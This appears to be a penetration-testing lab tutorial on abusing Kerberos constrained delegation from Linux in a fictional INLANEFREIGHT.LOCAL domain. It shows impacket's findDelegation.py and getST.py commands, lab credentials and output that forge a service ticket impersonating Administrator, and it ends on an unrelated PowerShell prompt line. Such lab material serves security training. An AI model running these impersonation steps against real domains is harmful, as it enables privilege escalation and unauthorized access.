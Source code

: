 
---
# Constrained Delegation from Linux

## Linux

Using `impacket`'s [findDelegation.py](https://github.com/fortra/impacket/blob/master/examples/findDelegation.py), we can find the accounts with delegation privileges.

#### Find Accounts with Delegation
```shell-session
slomkm@htb[/htb]$ findDelegation.py INLANEFREIGHT.LOCAL/carole.rose:jasmine

Impacket v0.10.1.dev1+20230330.124621.5026d261 - Copyright 2022 Fortra
AccountName    AccountType  DelegationType                      DelegationRightsTo                                                                                   
-------------  -----------  ----------------------------------  --------------------------------                                                                     
EXCHG01$       Computer     Constrained                         ldap/DC01.INLANEFREIGHT.LOCAL/INLANEFREIGHT.LOCAL                
EXCHG01$       Computer     Constrained                         ldap/DC01.INLANEFREIGHT.LOCAL  
callum.dixon   Person       Unconstrained                       N/A                                                                                                  
beth.richards  Person       Constrained w/ Protocol Transition  TERMSRV/DC01.INLANEFREIGHT.LOCAL                                                                     
beth.richards  Person       Constrained w/ Protocol Transition  TERMSRV/DC01                      
DMZ01$         Computer     Constrained w/ Protocol Transition  www/WS01.INLANEFREIGHT.LOCAL     
DMZ01$         Computer     Constrained w/ Protocol Transition  www/WS01                          
SQL01$         Computer     Unconstrained                       N/A
```

We can see there are three types of delegation in the results:
- Unconstrained: This account has unconstrained delegation
- Constrained: This account has constrained delegation without protocol transition support
- Constrained w/ Protocol Transition: This account has constrained delegation `with` protocol transition support

We will assume that we have already compromised the account `beth.richards`. This account has constrained delegation with protocol transition set, and the only allowed service for delegation is `TERMSRV/DC01.INLANEFREIGHT.LOCAL`.

Using the [getST.py](https://github.com/fortra/impacket/blob/master/examples/getST.py) tool from `impacket`, we can craft a valid TGS from an arbitrary user to access the `TERMSRV` service on the `DC01` host.

#### Using getST
```shell-session
slomkm@htb[/htb]$ getST.py -spn TERMSRV/DC01 'INLANEFREIGHT.LOCAL/beth.richards:B3thR!ch@rd$' -impersonate Administrator

Impacket v0.10.1.dev1+20230330.124621.5026d261 - Copyright 2022 Fortra

[-] CCache file is not found. Skipping... 
[*] Getting TGT for user
[*] Impersonating Administrator
[*]     Requesting S4U2self
[*]     Requesting S4U2Proxy
[*] Saving ticket in Administrator.ccache
```


[ws01.inlanefreight.local]: PS C:\Users\administrator.INLANEFREIGHT\Documents> whoami